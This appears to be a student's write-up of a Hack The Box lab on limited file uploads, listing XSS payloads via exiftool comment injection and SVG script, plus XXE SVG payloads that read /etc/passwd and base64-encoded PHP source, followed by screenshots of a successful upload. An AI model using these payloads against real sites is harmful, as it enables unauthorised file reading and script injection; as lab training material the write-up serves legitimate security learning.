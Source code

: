 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
---


We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)



